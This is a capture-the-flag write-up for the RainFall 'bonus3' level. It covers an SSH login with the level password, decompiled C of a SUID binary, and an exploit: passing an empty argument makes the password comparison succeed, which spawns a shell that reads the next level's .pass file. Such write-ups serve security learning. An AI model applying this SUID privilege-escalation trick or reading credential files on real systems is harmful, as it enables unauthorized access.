 login as the user `bonus3`


```shell
ssh -p 4242 bonus3@10.13.100.27
bonus3@10.13.100.27's password: 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
bonus3@RainFall:~$
```

a `SUID` exactable file is locates in the home directory

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    FILE* fp = fopen("/home/user/end/.pass", u"r…");
    char var_98[0x41];
    __builtin_memset(&var_98, 0, 0x84);

    if (!fp || argc != 2)
        return 0xffffffff;

    fread(&var_98, 1, 0x42, fp);
    char var_57_1 = 0;
    var_98[atoi(argv[1])] = 0;
    char var_56[0x42];
    fread(&var_56, 1, 0x41, fp);
    fclose(fp);

    if (strcmp(&var_98, argv[1]))
        puts(&var_56);
    else
        execl("/bin/sh", "sh", 0);

    return 0;
}
```

the program spawns a shell if the contents of `/home/user/end/.pass` file match the first argument,
but before doing that it passes the first arg into `atoi` and inserts at that index a `\0` to mark the end of the file buffer.
we can exploit this behavior and terminate the string at the very first character.


```shell
bonus3@RainFall:~$ ./bonus3 ""
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
end@RainFall:~$
```
